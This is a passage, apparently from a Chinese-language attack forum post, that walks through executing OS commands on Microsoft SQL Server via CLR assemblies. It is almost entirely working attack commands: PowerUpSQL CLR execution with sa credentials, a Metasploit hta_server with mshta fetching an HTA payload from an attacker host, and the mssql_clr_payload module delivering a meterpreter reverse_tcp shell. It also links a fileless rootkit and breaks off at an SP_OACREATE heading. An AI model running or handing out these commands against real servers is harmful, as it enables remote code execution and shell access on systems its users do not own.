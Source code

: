 ```php
powershell
powershell -ep bypass
Import-Module .\PowerUpSQL.ps1
Create-SQLFileCLRDll -ProcedureName “runcmd” -OutFile runcmd -OutDir C:\Users\administrator\Desktop\
```

会在指定位置生成3个文件，直接调用即可  
![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-5be4c7ead4ce2461861c6d89f391d7131c7f45e1.png)

### 使用PowerUpSQL远程调用执行CLR

```php
Invoke-SQLOSCmdCLR -Username sa -Password 'admin' -Instance "192.168.3.130,1433" -Command 'net user' -Verbose | Out-GridView
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-f729f5f17c0a9bdc0e49d5c0a88b169a2b9e9e66.png)

### 使用msf配合PowerUpSQL上线

```php
use exploit/windows/misc/hta_server
set srvhost 192.168.3.133
exploit
```

执行命令

```php
Invoke-SQLOSCmdCLR -Username sa -Password 'admin' -Instance "192.168.3.130,1433" -Command 'mshta.exe http://192.168.3.133:8080/GzoD8Ou5ltc.hta'
```

### 使用msf clr模块上线

```php
use exploit/windows/mssql/mssql_clr_payload
set rhosts 192.168.3.130
set username sa
set password admin
set payload windows/meterpreter/reverse_tcp
exploit
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/01/attach-d1c47463902d9f9fb1049c4c78c5ca1927f43496.png)

### WarSQLKit

```php
https://github.com/mindspoof/MSSQL-Fileless-Rootkit-WarSQLKit
```

使用 SP\_OACREATE 执行命令
====================
